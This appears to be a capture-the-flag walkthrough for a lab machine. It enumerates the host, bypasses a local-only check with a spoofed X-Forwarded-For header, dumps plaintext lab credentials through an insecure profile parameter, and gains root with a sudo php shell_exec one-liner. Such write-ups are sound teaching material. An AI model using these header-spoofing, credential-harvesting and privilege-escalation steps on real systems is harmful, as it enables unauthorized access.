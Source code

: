 # Table of Contents

- [Enumeration](#enumeration)
- [Penetration](#penetration)
- [Escelation](#escelation)


---

## Enumeration: 
- VM IP: `sudo netdiscover`
	* `VMWare 192.168.1.13`
- VM info: `nmap -A 192.168.1.13`
- web server info: `dirb -w http://192.168.1.13`
	* http://192.168.1.13/index.php
	* http://192.168.1.13/misc/process.php
	* http://192.168.1.13/config/config.php
	* http://192.168.1.13/heyhoo.txt

## Penetration:
- index.php req local access
- header capture/info with **Fiddler**
- custom header with browser extension(`X-Forwarded-For: 0.0.0.0`)
- local access granted 
- register: http://192.168.1.13/index.php?page=register
- login: http://192.168.1.13/index.php?page=login
- profile : http://192.168.1.13/index.php?page=profile&user_id=13
- `form action="#"` -> POSTS data on index.php?page=profile
- user_id allows to get all the name,uname,pass values 
- uname:pass list
	1.eweuhtandingan:skuyatuh  
	2.aingmaung:qwerty!!!  
	3.sundatea:indONEsia  
	4.sedihaingmah:cedihhihihi  
   	**5.alice:4lic3**  <-------------------------------     
	6.abdikasepak:dorrrrr  
- `ssh 192.168.1.13 -l alice`
- login in and capture **first flag**
			
## Privilege Escelation:
- `sudo -l`:
	* alice has root access on /usr/bin/php
- `sudo php -r 'shell_exec("sudo /bin/bash -i 1>&0");'`
- root access granted
- `cd /root && cat flag*` and capture the **second flag**





